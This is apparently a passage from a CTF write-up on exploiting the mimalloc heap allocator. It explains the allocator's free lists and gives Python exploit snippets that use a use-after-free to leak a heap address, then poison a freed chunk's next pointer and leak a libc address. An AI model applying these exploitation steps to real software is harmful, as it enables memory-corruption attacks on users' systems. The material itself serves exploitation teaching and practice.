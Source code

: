 In our case, the **Allocation Free List** (`page->free`) can hold up to **32 chunks** at a time. That means mimalloc can serve 32 allocations straight from this list without doing anything else.

Here’s the flow:

- If you free a block of a given size (say, 128 bytes) and then immediately request another 128-byte block, mimalloc will just hand it back to you from the **allocation free list** — as long as it’s not empty.
- Once this list becomes empty , mimalloc switches to the **slow path** (`malloc_generic`). This slow path first transfers any blocks waiting in the **Local Free List** into the Allocation Free List, and then continues serving allocations from there.

---

## Getting Leaks

Getting a (mimalloc)**heap leak**  is pretty straightforward. Since mimalloc stores its free list as a linked list (with the next pointer placed right at the start of each freed chunk) `similar to glibc`, reading the freed chunk will leak a **heap address** directly.

```python
######################### heap leak ##########################
create(0)
edit(0,b'a'*100)
create(1)
free(0)
free(1)
look(1)

heap_leak = unpack(r.recv(6),'all')  
print(hex(heap_leak))
```

For a **libc leak**, we can use a technique similar to **tcache poisoning**. Mimalloc, just like tcache, keeps the linked list pointer at the start of every freed chunk. With a use-after-free bug, we can overwrite that pointer. 

At this point, we only have a **heap leak**, so the next move is to craft a **fake chunk** somewhere inside the mimalloc memory segment or pages itself. Remember, every mimalloc segment also contains a region reserved for **metadata**, which is read-write accessible.This metadata doesn’t just store allocator info — it also contains some **libc pointers**.

```python
################## leak libc address ###############################
edit(1,pack(heap_leak+0x5980a000160+6*8-0x5980a010080)) #overwriting the next pointer of local free list
 for i in range(31): #allocating 31 chunks
    create(2)
create(3) #fake chunk allocated on free list
look(3)
r.recv(6*8)
libc.address = unpack(r.recv(6),'all')-0x00007caf37884100+0x7caf3788c000
print(hex(libc.address))
```
